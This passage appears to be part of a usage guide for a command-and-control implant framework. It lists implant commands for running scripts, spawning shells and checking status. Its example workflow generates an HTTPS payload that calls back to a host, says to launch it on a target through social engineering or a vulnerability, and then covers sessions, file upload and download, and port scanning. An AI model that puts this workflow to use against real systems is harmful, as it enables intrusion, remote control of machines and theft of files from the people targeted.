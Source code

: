 15. **Run a built-in command (e.g., port scan, file search)**:
    ```bash
    run <COMMAND>
    ```

16. **Execute a script on the target system**:
    ```bash
    execute <SCRIPT_PATH>
    ```

17. **Spawn a new shell on the target system**:
    ```bash
    spawn <SHELL_TYPE>
    ```

18. **Check the implant's status and configuration**:
    ```bash
    status
    ```

### Example Workflow

1. **Generate a payload**:
   ```bash
   generate --https --host 192.168.1.10 --port 443 --save payload.exe
   ```

2. **Launch the payload on the target system** (e.g., by using social engineering or a vulnerability).

3. **List active sessions**:
   ```bash
   sessions
   ```

4. **Interact with the active session**:
   ```bash
   use 1
   ```

5. **Perform post-exploitation activities** (e.g., uploading/downloading files, executing commands):
   ```bash
   whoami
   upload C:\local\file.txt C:\remote\file.txt
   download C:\remote\file.txt C:\local\file.txt
   ```

### Useful Built-in Commands

1. **Port scan**:
   ```bash
   run portscan <TARGET_IP> <PORT_RANGE>
   ```

2. **Search for files**:
   ```bash
   run search -d <DIRECTORY> -p <PATTERN>
   ```
